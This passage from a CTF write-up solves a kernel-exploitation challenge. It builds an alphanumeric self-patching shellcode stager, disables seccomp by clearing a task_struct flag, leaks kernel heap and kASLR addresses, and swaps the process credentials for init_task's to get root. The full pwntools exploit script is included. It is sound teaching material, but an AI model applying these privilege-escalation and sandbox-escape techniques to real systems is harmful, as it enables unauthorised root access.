While reading `/proc/self/maps` could leak userland bases to bypass PIE/ASLR, that's likely a trap or a waste,
as we'll probably need that one-time arbitrary read for kernel leaks instead (explained in the next section).

As for gaining code execution, things are tricky: not only is the shellcode budget extremely tight (`0x60` bytes) and restricted to `[a-zA-Z0-9]`,
but we're also trapped inside a tight seccomp filter (`read`, `write`, `exit`, `exit_group`).

For now, let's focus on taking over the process itself; we'll figure out the rest later.

Looking back at the disassembly:

```c
0040137e                        uint64_t payload_size = read(0, &tmp, 0x60) // yep, that tmp
0040137e                        
00401389                        if (payload_size s<= 0)
00401472                            die(msg: "[!] NO PAYLOAD\n")
00401472                            noreturn
00401472                        
0040138f                        unsigned char (* payload)[0x60] = &tmp
0040138f                        
00401407                        do
004013a0                            unsigned char byte = *payload
004013a0                            
004013b5                            // panics on any byte other than a-z A-Z 0-9
004013b5                            if ((byte & 0xdf) - 0x41 u> 0x19 && byte - 0x30 u> 9)
004013cf                                syscall(1, 1, "[!] INVALID BYTE IN PAYLOAD\n", 0x1c)
004013d9                                _exit(status: 1)
004013d9                                noreturn
004013d9                            
00401400                            payload += 1
00401407                        while (&tmp[payload_size] != payload) // last byte
00401407                        
00401409                        uint64_t rwx_buf_1 = rwx_buf
00401420                        __builtin_memset(dest: rwx_buf_1, ch: 0, count: 0x60)
0040142a                        memcpy(rwx_buf_1, &tmp, payload_size)() // copy and jump on a shellcode
0040142c                        break
0040142c                
004013f1                _exit(status: 0)
004013f1                noreturn
```

We send a payload string. If it contains any byte outside `A-Z`, `a-z`, or `0-9`, the program aborts.
Otherwise, it copies the payload into the `rwx` buffer allocated at startup and jumps straight into it (`memcpy` returns the destination pointer).

If we can craft an alphanumeric shellcode that fits within `0x60` bytes, we get code execution!

I won't dive into the nitty-gritty details of alphanumeric encoding just yet. For now, all you need to know is that tools like [ae64](https://github.com/veritas501/ae64) don't work here because their generated stagers are way too long.
(After the CTF, the author mentioned that the intended tool was [z3ncoder](https://github.com/zhouzq-thu/z3ncoder), but I'll focus on handmade shellcode, like in the good ol' days)

## Kernel

I spent an ABSURD amount of time on this phase (around 3–4 days) because I had virtually zero kpwn experience, but hey, now I have some (even if just a bit).

> As I said, I'm still relatively new to this. If you spot any mistakes, please ping me on Discord (`@jzrn_`).

If you recall (and hopefully you do, though coffee helps with memory), `/dev/shadowops` gives us an arbitrary 8-byte write primitive, but only twice.

Wait: if we leak an address from this module, couldn't we overwrite its internal `used` counter for infinite writes? Sure, but do we actually need that?

We could read `/proc/kallsyms` to leak addresses and calculate the kASLR slide, but standard vectors like `modprobe_path` or `core_pattern` won't work easily here because we can't create or trigger arbitrary files.
So what can we do?

They didn't give us exactly two 8-byte writes by accident!

Here is the game plan:
- Leak the `current_task` address from the kernel heap.
- Overwrite `current_task->thread_info.flags` to clear the seccomp flag.
- Leak kASLR (now that seccomp is gone, we can read `/proc/kallsyms` freely).
- Overwrite `current_task->cred` with `init_task.cred`.
- Read the flag.

Sounds involved, but bear with me.

### task_struct

Every process in Linux is represented in the kernel heap by a task_struct, which holds fields like `PID`, `UID`, `flags`, and much **much** more.

The struct layout changes between kernel versions and compile configs, so I'll only highlight the relevant fields:



The full structure definition can be found [here](https://elixir.bootlin.com/linux/v4.9.333/source/include/linux/sched.h#L1487)

Right now, we need to solve two problems: disabling seccomp and becoming root.

First: disabling seccomp.
This is relatively straightforward. In `task_struct->thread_info`, there is a `flags` field where bit 8 indicates whether seccomp is active
[(source reference)](https://elixir.bootlin.com/linux/v4.9.333/source/arch/x86/include/asm/thread_info.h#L89):

```c{title="thread_info.h" hl_lines=[9]}
#define TIF_SYSCALL_TRACE	0	/* syscall trace active */
#define TIF_NOTIFY_RESUME	1	/* callback before returning to user */
#define TIF_SIGPENDING		2	/* signal pending */
#define TIF_NEED_RESCHED	3	/* rescheduling necessary */
#define TIF_SINGLESTEP		4	/* reenable singlestep on user return*/
#define TIF_SSBD		5	/* Speculative store bypass disable */
#define TIF_SYSCALL_EMU		6	/* syscall emulation active */
#define TIF_SYSCALL_AUDIT	7	/* syscall auditing active */
#define TIF_SECCOMP		8	/* secure computing */ 
#define TIF_SPEC_IB		9	/* Indirect branch speculation mitigation */
#define TIF_SPEC_FORCE_UPDATE	10	/* Force speculation MSR update in context switch */
#define TIF_USER_RETURN_NOTIFY	11	/* notify kernel of userspace return */
#define TIF_UPROBE		12	/* breakpointed or singlestepping */
#define TIF_NOTSC		16	/* TSC is not accessible in userland */
#define TIF_IA32		17	/* IA32 compatibility process */
#define TIF_NOHZ		19	/* in adaptive nohz mode */
#define TIF_MEMDIE		20	/* is terminating due to OOM killer */
#define TIF_POLLING_NRFLAG	21	/* idle is polling for TIF_NEED_RESCHED */
#define TIF_IO_BITMAP		22	/* uses I/O bitmap */
#define TIF_FORCED_TF		24	/* true if TF in eflags artificially */
#define TIF_BLOCKSTEP		25	/* set when we want DEBUGCTLMSR_BTF */
#define TIF_LAZY_MMU_UPDATES	27	/* task is updating the mmu lazily */
#define TIF_SYSCALL_TRACEPOINT	28	/* syscall tracepoint instrumentation */
#define TIF_ADDR32		29	/* 32-bit address space on 64 bits */
#define TIF_X32			30	/* 32-bit native x86-64 binary */
```

All we need to do is zero out this field (or clear bit 8), and boom - seccomp is gone.

Privilege escalation is slightly trickier. While `task_struct` contains credentials, we don't know the exact heap address of a root `cred` struct to point to.
However, we *can* overwrite the `task_struct->cred` pointer to point to `init_task.cred`! `init_task` is the static task struct for PID 0, residing in the kernel's `.data` section.
Its credentials live there as well, so once we defeat kASLR, we can calculate its exact address.

> Doing this desynchronizes refcounts, so trying to spawn a child shell via `fork`/`exec` will cause the kernel to panic. We have to read the flag directly from our own process.

Now, how do we leak the address of our own `task_struct`? Remember that we can read the first `0x1000` bytes of any file once. We can target `/proc/net/netlink`.
Why? Our process runs deterministically (PID 2 or 3 in this minimal environment), meaning the lower bytes of its heap address are predictable across boots.
We can leak almost any kernel heap pointer from `/proc/net/netlink` and substitute the lower bytes with our known offset.

Because the system boot chain is identical on every run, the SLUB allocation order in the kernel heap remains consistent.

What is `/proc/net/netlink`? It's a procfs pseudo-file that lists active netlink sockets. Luckily for us, on older kernels it exposes raw kernel object pointers from the heap:

```
sk       Eth Pid    Groups   Rmem     Wmem     Dump     Locks     Drops     Inode
ffffa40e8ee17000 0   0      00000000 0        0        0 2        0        4
ffffa40e8e251000 4   0      00000000 0        0        0 2        0        6093
ffffa40e8ddfc000 6   0      00000000 0        0        0 2        0        6095
ffffa40e8e6f0000 7   0      00000000 0        0        0 2        0        6036
ffffa40e8e67e000 9   0      00000000 0        0        0 2        0        6029
ffffa40e8e230000 10  0      00000000 0        0        0 2        0        5978
ffffa40e8e506000 11  0      00000000 0        0        0 2        0        16
ffffa40e8e251800 12  0      00000000 0        0        0 2        0        6094
ffffa40e8eed4800 15  0      00000000 0        0        0 2        0        6
ffffa40e8e080000 16  0      00000000 0        0        0 2        0        23
```

# Exploit

## Easy Part

I started by getting control over `blackops`. To keep the binary from bailing out on `/dev/shadowops`, I created a dummy file on my host and set up a standard pwntools harness:

```py{title="exploit.py"}
from pwn import *

context.arch='amd64'
context.terminal = ['zellij', 'action', 'new-pane', '-d', 'right', '--']
# context.log_level='debug'

# p = process('./run-qemu.sh')
p = gdb.debug('./initramfs/blackops', aslr=True, gdbscript='b *main+778')

p.readuntil(b'CMD> ')
p.writeline(b'2') # payload deployment

# do the thing

p.interactive()
```

We don't even need to write the entire payload in alphanumeric instructions.
Since the buffer is marked `rwx`, we can just write an alphanumeric stager that calls `read(0, buffer, ...)` to suck in a clean, unrestricted shellcode from stdin and overwrite itself.

In assembly, all we want is:

```asm
mov rax, 0                   ; SYS_read
mov rdi, 0                   ; fd (stdin)
mov rsi, start_of_the_buffer ; buf[count]
mov rdx, some_number         ; count
syscall                      ; read(stdin, buf[count], count)
```

...except the payload has to consist entirely of alphanumeric characters (`[a-zA-Z0-9]`). I won't dive too deep into the full theory behind alphanumeric shellcoding,
as this is a writeup and not an academic paper (and honestly, I'm lazy). Here is the [reference](https://rstforums.com/forum/topic/51027-alphanumeric-shellcode/) I used. Essentially,
you work with the subset of instructions whose opcodes happen to fall into the allowed ASCII range.

If an instruction contains "bad" bytes, we can patch those bytes in memory at runtime since our code lives in an `rwx` region.

Here is what I came up with:

```py{title="exploit.py"}
# maybe this isn't the most effective and easiest way of doing that, but I don't care
part1 = asm('''
push 0x6f6f6f6f
pop rdx
xor [rax + 0x34], dh

push 0x6e6e6e6e
pop rdx
xor [rax + 0x37], dh

push 0x4e4e4e4e
pop rdx
xor [rax + 0x45], dh

push 0x44444444
pop rdx
xor [rax + 0x46], dh

push 0x41414141
push 0x41414141

push 0x41
pop rax
xor al, 0x41

push rax
''')

part2 = asm('''
push r8
''')

part3 = asm('''
push r11
pop rdx

push 0x41414141
push 0x41414141
''')

# it will decode itself into something like this:
#
# mov rax, 0   /* rax = 0 (sys_read) */
# mov rdi, 0   /* fd = 0 */
# mov rsi, r8  /* buf = r8 (&start_of_the_buffer) */
# mov rdx, r11 /* size = rdx (more than enough) */
# syscall      /* read(fd, buf, size) */
shellcode = bytes(part1) + b'\x30' + bytes(part2) + b'\x30' + bytes(part3) + b'\x41\x41'
```

Looking at this, you might feel an overwhelming urge to claw your eyes out. Don't worry, that's the standard human reaction.
I recommend fighting the urge; if that fails, consult your nearest chronomancer to turn back time and talk you out of it.

If you survived, let me break down what's happening.

First, I sent a "test" string during debugging to see what the register state looked like right at the jump:

```{title="gdb" hl_lines=[1 8 9 10]}
$rax   : 0x00007f033e15e000  →  0x0000000074736574 ("test"?)
$rbx   : 0x0
$rcx   : 0x74736574
$rdx   : 0x4
$rsp   : 0x00007ffcf42650c8  →  0x000055f472e9942c  →  <main+030c> jmp 0x55f472e991be <main+158>
$rbp   : 0x00007ffcf4265130  →  0x0000000074736574 ("test"?)
$rsi   : 0x74736574
$rdi   : 0x00007f033e15e000  →  0x0000000074736574 ("test"?)
$rip   : 0x00007f033e15e000  →  0x0000000074736574 ("test"?)
$r8    : 0x00007f033e15e000  →  0x0000000074736574 ("test"?)
$r9    : 0x4
$r10   : 0xa
$r11   : 0x246
$r12   : 0x1
$r13   : 0x00007ffcf4265131  →  0x0000000000747365 ("est"?)
$r14   : 0x00007f033e3f8000  →  0x00007f033e3f93c0  →  0x000055f472e98000  →  0x00010102464c457f
$r15   : 0x000055f472e9cd58  →  0x000055f472e99520  →  <__do_global_dtors_aux+0000> endbr64                                     
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
```

As you can see, `0x00007f033e15e000` is the start of our `rwx` buffer (easily verified via `info proc map`), and multiple registers (`rax`, `rdi`, `r8`) point straight to it. That's very convenient.

Now, let's dissect the self-modifying decoding routine at the beginning:

```asm
push 0x6f6f6f6f
pop rdx
xor [rax + 0x34], dh

push 0x6e6e6e6e
pop rdx
xor [rax + 0x37], dh

push 0x4e4e4e4e
pop rdx
xor [rax + 0x45], dh

push 0x44444444
pop rdx
xor [rax + 0x46], dh
```

This solves our primary problem: instructions with non-alphanumeric opcodes.

The trick is runtime XOR-patching using relative offsets from `rax` (which points to our buffer).
We need to patch 4 bytes in total (across three instructions: `pop rdi` - `\x5f`, `pop rsi` - `\x5e`, and `syscall` - `\x0f\x05`).

We push an alphanumeric mask into `rdx` (e.g. `\x6f`), then XOR it against the target byte at `[rax + offset]`. Repeating this four times fixes all our banned opcodes.

| offset from `rax` | sent byte      | xor key (`dh`) | instruction        |
| ----------------- | -------------- | -------------- | ------------------ |
| `+0x34`           | `0x30` (`'0'`) | `0x6f` (`'o'`) | `pop rdi`          |
| `+0x37`           | `0x30` (`'0'`) | `0x6e` (`'n'`) | `pop rsi`          |
| `+0x45`           | `0x41` (`'A'`) | `0x4e` (`'N'`) | `syscall` (byte 1) |
| `+0x46`           | `0x41` (`'A'`) | `0x44` (`'D'`) | `syscall` (byte 2) |

Next, we zero out `rax` to prepare `SYS_read` (0):

```asm
push 0x41
pop rax      ; rax = 0x41
xor al, 0x41 ; rax = rax - 0x41 (0x00 SYS_read)
```

From there, the logic is standard:

```asm
push rax 
pop rdi  ; rdi = rax (0x00 stdin) (PATCHED)

push r8
pop rsi  ; rsi = r8 (buf address) (PATCHED)

push r11
pop rdx  ; rdx = r11 (0x246)

syscall  ; read(stdin, buf, 0x246) (PATCHED)
```

The instructions marked `(PATCHED)` are the ones repaired by our XOR routine.
The extra push `0x41414141` instructions simply act as padding to shift offsets so that the displacement operands in `[rax + offset]` remain valid alphanumeric bytes.

## Hard Part

Now we need to escape seccomp and escalate privileges.

Quick checklist:
- Leak the kernel heap address
- Disable seccomp
- Overwrite `cred`
- Read the flag

Let's update our exploit script:

```py{title="exploit.py"}
from pwn import *

context.arch='amd64'
# context.terminal = ['zellij', 'action', 'new-pane', '-d', 'right', '--']
# context.log_level='debug'

p = process('./run-qemu.sh')
# p = gdb.debug('./initramfs/blackops', aslr=True, gdbscript='b *main+778')

p.readuntil(b'CMD> ')
p.writeline(b'1') # intel extraction

p.writeline(b'/proc/net/netlink')
p.readline()
leak = p.readuntil(b' ')[:-1]  # truncate ' '
address = leak[:-5] + b'30000' # always the same
current_task = int(address.decode(), 16)
process_cred = current_task + 0x610 # cred offset

log.success('current_task: ' + hex(current_task))
log.success('&current_task->cred: ' + hex(process_cred))

p.readuntil(b'CMD> ')
p.writeline(b'2') # payload deployment

# makes small alphanumeric shellcode (a-z A-Z 0-9)

l = log.progress('making alphanumeric stager')

# maybe this isn't the most effective and easiest way of doing that, but I don't care
part1 = asm('''
push 0x6f6f6f6f
pop rdx
xor [rax + 0x34], dh

push 0x6e6e6e6e
pop rdx
xor [rax + 0x37], dh

push 0x4e4e4e4e
pop rdx
xor [rax + 0x45], dh

push 0x44444444
pop rdx
xor [rax + 0x46], dh

push 0x41414141
push 0x41414141

push 0x41
pop rax
xor al, 0x41

push rax
''')

part2 = asm('''
push r8
''')

part3 = asm('''
push r11
pop rdx

push 0x41414141
push 0x41414141
''')

# something like this
#
# mov rax, 0   /* rax = 0 (sys_read) */
# mov rdi, 0   /* fd = 0 */
# mov rsi, r8  /* buf = r8 (&start_of_the_buffer) */
# mov rdx, r11 /* size = rdx (more than enough) */
# syscall      /* read(fd, buf, size) */
shellcode = bytes(part1) + b'\x30' + bytes(part2) + b'\x30' + bytes(part3) + b'\x41\x41'

l.success('success!')

p.readuntil(b'PAYLOAD> ')
p.write(shellcode)
```

Wait, how did I know to replace the lower bytes with `0x30000`?
Simple answer: ~matrix multiplication~ half an hour in GDB. Instead of writing out the entire debugging session, here's the gist:

I initially leaked `/proc/kallsyms` to find `init_task`, attached GDB to the kernel, and traversed the circular task list until I found the task struct with bit 8 set in its flags (seccomp).
Repeating this across several reboots revealed a clear pattern:

```
0xffff9dabcee30000
0xffff9d52cee30000
0xffff92d6cee30000
0xffff9cadcee30000
0xffff8caecee30000
```

See? The `30000` suffix never changes. While the middle bytes (`ee`) shifted occasionally between reboots (rarely, I found it out later),
replacing the lower bytes with `30000` consistently resolved to the target task struct.

As for the rest of the changes: the only difference is the target execution (`run-qemu.sh` instead of local `blackops`), plus adding the leak parsing and address calculations for `current_task` and `process_cred`.

Now that we have the task struct address, we can disable seccomp and leak kASLR for the final privilege escalation:

```py{title="exploit.py"}
l = log.progress('disabling seccomp and leaking kASLR')

# r9  = pie leak
# r10 = blackops_strike_write
call_module = asm(f'''
mov r9, [rsp+0x20]  /* pie leak */
lea r10, [r9+0x3c4] /* blackops_strike_write */

call r10            /* call blackops_strike_write */
''')

# leaks kASLR
leak_kaslr = asm(shellcraft.cat2('/proc/kallsyms', fd=1, length=0x100))

# loader
load_new = asm('''
xor rdi, rdi        /* rdi  = 0 */
lea rsi, [rip+0x20] /* buf  = rip+0x20 (a little more than needed just in case) */
mov rdx, 0x500      /* size = 0x500 */
xor rax, rax        /* rax  = 0 (sys_read) */
syscall
jmp rsi             /* jump on buf */
''')

shellcode =  call_module
shellcode += leak_kaslr
shellcode += load_new

p.writeline(asm('nop')*80 + shellcode) # a "little" nop slide just in case

# turns off seccomp
p.writeafter(b'WHERE> ', p64(current_task))
p.writeafter(b'WHAT> ', b'\x00'*8)

# leaks kASLR
p.readuntil(b'__per_cpu_user_mapped_start\n')
kaslr_leak = int(p.readuntil(b' T')[:-2], 16)
init_cred = kaslr_leak + 0x1048068

l.success('done!')
log.success('init_task.cred: ' + hex(init_cred))

p.clean()
```

This stage of the shellcode does three things:
- Calls `blackops_strike_write`
- Reads `/proc/kallsyms` (to leak kASLR)
- Stages the final shellcode

At `rsp+0x20`, there's a saved text address - specifically the `call rax` that jumped to our initial shellcode. Using this, we can easily calculate the offset to `blackops_strike_write` (`+0x3c4`).

In short, this snippet zeros out the first 8 bytes (`flags`) of our `task_struct` to clear the seccomp flag, prints the first `0x100` bytes of /proc/kallsyms (plenty to calculate the kASLR slide),
computes the address of `init_task.cred`, and reads in the final payload.

How did I get the offset to `init_cred`? That took a bit more digging.

First, I extracted the kernel image and resolved symbols:

```
╭─jzrn_@pwn-container ~/writeup
╰─$ ./extract-vmlinux bzImage > vmlinux
╭─jzrn_@pwn-container ~/writeup
╰─$ vmlinux-to-elf ./vmlinux ./vmlinux_sym
[+] Version string: Linux version 4.9.333 (root@DESKTOP-TVDP94O) (gcc version 12.5.0 (Debian 12.5.0-9) ) #1 SMP Sat Jun 20 17:41:19 WIB 2026
[+]   Other related strings containing the version number: [b'Linux version 4.9.333 (root@DESKTOP-TVDP94O) (gcc version 12.5.0 (Debian 12.5.0-9) ) #1 SMP Sat Jun 20 17:41:19 WIB 2026', b'4.9.333 SMP mod_unload ', b'Kernel: 4.9.333', b'/lib/firmware/updates/4.9.333', b'/lib/firmware/4.9.333', b'4.9.333']
[+] Guessed architecture: x86_64 successfully in 0.37 seconds
[+] Kernel found in database
[+]   Read kernel source: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/?id=v4.9
[+]   Download kernel: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/snapshot/v4.9.tar.gz
[+]   Kernel release date: 2016-12-11
[+]   Interesting files:
[~]     - kernel/kallsyms.c: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/kernel/kallsyms.c?id=v4.9
[~]     - scripts/kallsyms.c: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/scripts/kallsyms.c?id=v4.9
[~]     - include/linux/elf.h: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/include/linux/elf.h?id=v4.9
[~]     - include/uapi/linux/elf-em.h: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/include/uapi/linux/elf-em.h?id=v4.9
[~]     - include/uapi/linux/elf.h: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/include/uapi/linux/elf.h?id=v4.9
[~]     - Documentation/Changes: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/Documentation/Changes?id=v4.9
[+]   Architecture x86_64 (EM_X86_64) supports 64-bit, little-endian
[+]   Architecture x86 (EM_X86_64) supports 32-bit, 64-bit, little-endian
[~]     - Documentation/x86/boot.txt: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/Documentation/x86/boot.txt?id=v4.9
[~]     - arch/x86/boot/compressed/vmlinux.lds.S: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/arch/x86/boot/compressed/vmlinux.lds.S?id=v4.9
[~]     - arch/x86/boot/compressed/Makefile: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/arch/x86/boot/compressed/Makefile?id=v4.9
[~]     - arch/x86/kernel/vmlinux.lds.S: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/arch/x86/kernel/vmlinux.lds.S?id=v4.9
[~]     - arch/x86/kernel/Makefile: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/arch/x86/kernel/Makefile?id=v4.9
[~]     - arch/x86/boot/header.S: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/arch/x86/boot/header.S?id=v4.9
[~]     - arch/x86/boot/Makefile: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/arch/x86/boot/Makefile?id=v4.9
[~]     - arch/x86/include/asm/elf.h: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/arch/x86/include/asm/elf.h?id=v4.9
[~]     - arch/x86/um/asm/elf.h: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/arch/x86/um/asm/elf.h?id=v4.9
[+]   Suggested build environment: docker run -it debian/eol:jessie (Debian 8.0 "Jessie" released 2015-04-25)
[+] Found kallsyms_token_table at file offset 0x00f97de8
[+] Found kallsyms_token_index at file offset 0x00f98138
[+] Found kallsyms_markers at file offset 0x00f97838
[+] Found kallsyms_names at file offset 0x00f0b310 (46390 symbols)
[+] Found kallsyms_num_syms at file offset 0x00f0b308
[+] Negative offsets overall: 99.9935 %
[+] Null addresses overall: 0.00646691 %
[+] Found kallsyms_offsets at file offset 0x00edde28
[+] Guessed the base address using the kallsyms_relative_base value (ffffffff81000000)
[+] Successfully wrote the new ELF kernel to ./vmlinux_sym
```

Surprisingly, `vmlinux-to-elf` only extracted function names - object symbols like `modprobe_path` or `init_task` weren't available in `nm`.

Then I remembered the layout of task_struct:


The `cred` pointer immediately follows the `comm[16]` field. For `init_task`, the process name is always `"swapper"`.
All I had to do was search for the string `"swapper"` in Binary Ninja and find the pointer right above it:



There it is! From there, simple subtraction in GDB gave the delta:

```
gef➤  p 0xffffffff82048320 - 0xffffffff810002b8
$1 = 0x1048068
```

And that gave me the exact offset!

Now we have all the pieces for the final act. Here's the code:

```py{title="exploit.py"}
l = log.progress('getting root and printing the flag')

# rewrites current->cred with init_cred to get root
# fd of /dev/shadowops is always `3`
shellcode = asm(
    shellcraft.push(init_cred) +    # what to write
    shellcraft.push(process_cred) + # where to write
    shellcraft.write(3, 'rsp', 16)  # write!
)

# opens '/' directory and gets files
shellcode += asm(
    shellcraft.open('/', 0x10000) +
    'sub rsp, 1024\n' + # prepare stack
    shellcraft.getdents64('rax', 'rsp', 1024) # saves content of /
)

# finds flag name
shellcode += asm('''
    mov rbx, rsi                           /* rbx = start of the buffer */

find_flag:
    cmp dword ptr [rbx + 0x13], 0x67616c66 /* match with 'flag' (LE) */
    je found

    movzx rcx, word ptr [rbx + 0x10]       /* rcx = d_reclen */
    add rbx, rcx
    jmp find_flag

found:
    mov byte ptr [rbx+0x12], 0x2f          /* patch d_type with '/' */
    lea rsi, [rbx + 0x12]                  /* rsi = &'/flag-xxxxxxxx.txt' */
''')

# reads and prints the flag
shellcode += asm(
    shellcraft.open('rsi', 0) + # flag_name.txt
    shellcraft.read('rax', 'rsp', 128) +
    shellcraft.write(1, 'rsp', 'rax')
)

p.writeline(shellcode)

l.success(p.readline()[:-1].decode())
```

It might look intimidating, but the concept is clean. I'll skip over overwriting `cred`, as that's a straightforward write to `/dev/shadowops`.

[getdents64](https://manpages.debian.org/unstable/manpages-dev/getdents64.2.en.html) is a syscall that reads directory entries (linux_dirent structs) from an open directory fd into a user buffer.

The struct layout:

```c
struct linux_dirent {
	unsigned long	  d_ino;    /* 8 bytes: inode number */
	unsigned long	  d_off;    /* 8 bytes: tbh idk */
	unsigned short	d_reclen; /* 2 bytes: full len of this record */
	unsigned char   d_type;   /* 1 byte: file type */
	char		        d_name[]; /* file name, ends with \x00 */
};
```

Now that assembly block makes total sense:

```asm
    mov rbx, rsi                           /* rbx = start of the buffer */

find_flag:
    cmp dword ptr [rbx + 0x13], 0x67616c66 /* match with 'flag' (LE) */
    je found

    movzx rcx, word ptr [rbx + 0x10]       /* rcx = d_reclen */
    add rbx, rcx
    jmp find_flag

found:
    mov byte ptr [rbx+0x12], 0x2f          /* patch d_type with '/' */
    lea rsi, [rbx + 0x12]                  /* rsi = &'/flag-xxxxxxxx.txt' */
```

It iterates through the directory entries, stepping forward by `d_reclen`, and checks for the string `"flag"`. Once found,
it patches the preceding byte to a slash (`/`) to form an absolute path and passes the pointer to `rsi`.

Finally, the shellcode opens the flag file, reads its contents, and writes them to stdout. That's all there is to it!

Putting everything together into the final exploit:

```py
from pwn import *

context.arch='amd64'
# context.terminal = ['zellij', 'action', 'new-pane', '-d', 'right', '--']
# context.log_level='debug'

p = process('./run-qemu.sh')
# p = gdb.debug('./initramfs/blackops', aslr=True, gdbscript='b *main+778')

p.readuntil(b'CMD> ')
p.writeline(b'1') # intel extraction

p.writeline(b'/proc/net/netlink')
p.readline()
leak = p.readuntil(b' ')[:-1]  # truncate ' '
address = leak[:-5] + b'30000' # always the same
current_task = int(address.decode(), 16)
process_cred = current_task + 0x610 # cred offset

log.success('current_task: ' + hex(current_task))
log.success('&current_task->cred: ' + hex(process_cred))

p.readuntil(b'CMD> ')
p.writeline(b'2') # payload deployment

# makes small alphanumeric shellcode (a-z A-Z 0-9)

l = log.progress('making alphanumeric stager')

# maybe this isn't the most effective and easiest way of doing that, but I don't care
part1 = asm('''
push 0x6f6f6f6f
pop rdx
xor [rax + 0x34], dh

push 0x6e6e6e6e
pop rdx
xor [rax + 0x37], dh

push 0x4e4e4e4e
pop rdx
xor [rax + 0x45], dh

push 0x44444444
pop rdx
xor [rax + 0x46], dh

push 0x41414141
push 0x41414141

push 0x41
pop rax
xor al, 0x41

push rax
''')

part2 = asm('''
push r8
''')

part3 = asm('''
push r11
pop rdx

push 0x41414141
push 0x41414141
''')

# something like this
#
# mov rax, 0   /* rax = 0 (sys_read) */
# mov rdi, 0   /* fd = 0 */
# mov rsi, r8  /* buf = r8 (&start_of_the_buffer) */
# mov rdx, r11 /* size = rdx (more than enough) */
# syscall      /* read(fd, buf, size) */
shellcode = bytes(part1) + b'\x30' + bytes(part2) + b'\x30' + bytes(part3) + b'\x41\x41'

l.success('success!')

p.readuntil(b'PAYLOAD> ')
p.write(shellcode)

l = log.progress('disabling seccomp and leaking kASLR')

# r9  = pie leak
# r10 = blackops_strike_write
call_module = asm(f'''
mov r9, [rsp+0x20]  /* pie leak */
lea r10, [r9+0x3c4] /* blackops_strike_write */

call r10            /* call blackops_strike_write */
''')

# leaks kASLR
leak_kaslr = asm(shellcraft.cat2('/proc/kallsyms', fd=1, length=0x100))

# loader
load_new = asm('''
xor rdi, rdi        /* rdi  = 0 */
lea rsi, [rip+0x20] /* buf  = rip+0x20 (a little more than needed just in case) */
mov rdx, 0x500      /* size = 0x500 */
xor rax, rax        /* rax  = 0 (sys_read) */
syscall
jmp rsi             /* jump on buf */
''')

shellcode =  call_module
shellcode += leak_kaslr
shellcode += load_new

p.writeline(asm('nop')*80 + shellcode) # a "little" nop slide just in case

# turns off seccomp
p.writeafter(b'WHERE> ', p64(current_task))
p.writeafter(b'WHAT> ', b'\x00'*8)

# leaks kASLR
p.readuntil(b'__per_cpu_user_mapped_start\n')
kaslr_leak = int(p.readuntil(b' T')[:-2], 16)
init_cred = kaslr_leak + 0x1048068

l.success('done!')
log.success('init_task.cred: ' + hex(init_cred))

p.clean()

l = log.progress('getting root and printing the flag')

# rewrites current->cred with init_cred to get root
# fd of /dev/shadowops is always `3`
shellcode = asm(
    shellcraft.push(init_cred) +    # what to write
    shellcraft.push(process_cred) + # where to write
    shellcraft.write(3, 'rsp', 16)  # write!
)

# opens '/' directory and gets files
shellcode += asm(
    shellcraft.open('/', 0x10000) +
    'sub rsp, 1024\n' + # prepare stack
    shellcraft.getdents64('rax', 'rsp', 1024) # saves content of /
)

# finds flag name
shellcode += asm('''
    mov rbx, rsi                           /* rbx = start of the buffer */

find_flag:
    cmp dword ptr [rbx + 0x13], 0x67616c66 /* match with 'flag' (LE) */
    je found

    movzx rcx, word ptr [rbx + 0x10]       /* rcx = d_reclen */
    add rbx, rcx
    jmp find_flag

found:
    mov byte ptr [rbx+0x12], 0x2f          /* patch d_type with '/' */
    lea rsi, [rbx + 0x12]                  /* rsi = &'/flag-xxxxxxxx.txt' */
''')

# reads and prints the flag
shellcode += asm(
    shellcraft.open('rsi', 0) + # flag_name.txt
    shellcraft.read('rax', 'rsp', 128) +
    shellcraft.write(1, 'rsp', 'rax')
)

p.writeline(shellcode)

l.success(p.readline()[:-1].decode())
```


